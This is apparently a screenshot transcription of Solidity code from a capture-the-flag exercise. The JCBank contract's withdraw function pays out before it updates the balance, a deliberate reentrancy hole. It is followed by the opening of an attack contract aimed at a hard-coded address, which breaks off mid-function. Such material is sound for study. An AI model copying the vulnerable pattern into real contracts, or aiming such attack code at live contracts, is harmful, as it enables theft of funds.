 ```js

contract JCBank {
    mapping (address => uint) public balance;
    mapping (uint => bool) public got_flag;
    uint128 secret;

    constructor (uint128 init_secret) public {
        secret = init_secret;
    }

    function deposit() public payable {
        balance[msg.sender] += msg.value;
    }

    function withdraw(uint amount) public {
        require(balance[msg.sender] >= amount);
        msg.sender.call.value(amount)();
        balance[msg.sender] -= amount;
    }

    function get_flag_1(uint128 guess) public view returns(string) {
        require(guess == secret);

        bytes memory h = new bytes(32);
        for (uint i = 0; i < 32; i++) {
            uint b = (secret >> (4 * i)) & 0xF;
            if (b < 10) {
                h[31 - i] = byte(b + 48);
            } else {
                h[31 - i] = byte(b + 87);
            }
        }
        return string(abi.encodePacked("flag{", h, "}"));
    }

    function get_flag_2(uint user_id) public {
        require(balance[msg.sender] > 1000000000000 ether);
        got_flag[user_id] = true;
        balance[msg.sender] = 0;
    }
}

contract Battach{
    address target;
    address owner;
    uint256 money;
    JCBank g;
    uint flag = 0;
    
    modifier ownerOnly {
        require(owner == msg.sender);
        _;
    }
    // 构造函数初始化合约所有者的地址
    constructor() payable public{
        target = 0xE575c9abD35Fa94F1949f7d559056bB66FddEB51;
         g = JCBank(target);
        owner = msg.sender;
        money = 1;
    }
 
    function getFlag(uint _user_id) ownerOnly payable{
     g.get_flag_2(_user_id);
```